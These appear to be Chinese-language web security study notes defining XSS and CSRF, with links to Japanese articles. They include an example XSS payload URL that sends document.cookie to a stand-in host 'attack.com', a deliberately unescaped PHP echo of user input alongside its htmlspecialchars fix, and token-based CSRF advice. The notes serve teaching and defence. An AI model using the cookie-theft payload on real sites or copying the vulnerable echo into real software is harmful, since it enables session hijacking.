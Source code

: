 # 網頁安全

## RFC9116

- [あなたのWebサービスの脆弱性を発見者から教えてもらう方法 - RFC9116が発表されました](https://zenn.dev/sh1ma/articles/20e61d84e7d380)

## XSS

- Cross-site scripting（跨網站指令碼）
- 利用網頁上會動態產生內容部份（ex. 輸入欄位）的漏洞，注入惡意腳本的攻擊手法
- 例如使用短網址包覆帶有惡意腳本的網址：
  `http://app.com/?name=?<script>...attack.com/bad.php?data=document.cookie;</script>`
- 攻擊者便可取得使用者的 Cookie，並藉此盜用相關資料
- 可以針對特殊文字進行處理（例如 `<`、`&`）防止攻擊

### 範例

```php
<!-- 搜尋表格 search.php -->
<form action="result.php">
  <input type="text" name="keyword" />
  <button type="submit">搜尋</button>
</form>

<!-- 搜尋結果頁面 result.php -->
<h2><?php echo $_GET['keyword']; ?>的搜尋結果</h2>

// 輸入 <script>location.href = 'http://example.com'</script>
// 結果頁面會變為
<h2>
  <script>
    location.href = "http://example.com";
  </script>
  的搜尋結果
</h2>

// 對策：加入 escape
<h2><?php echo htmlspecialchars($_GET['keyword'], ENT_QUOTES); ?>的搜尋結果</h2>
```

## CSRF

- Cross-site request forgery（跨站請求偽造）
- 利用網頁應用處理程序上的漏洞，進行原定以外處理的攻擊手法
- 例如使用短網指包覆指定行為的網址：`http://app.com/post/`
- 導致使用者身份被盜用，從而進行非原定的行為，例如留下犯罪宣言的訊息
- 可以在 request 裡加入 token 驗證這個行為是否真的來自該使用者
- [これで完璧！今さら振り返る CSRF 対策と同一オリジンポリシーの基礎](https://qiita.com/mpyw/items/0595f07736cfa5b1f50c)

### 範例
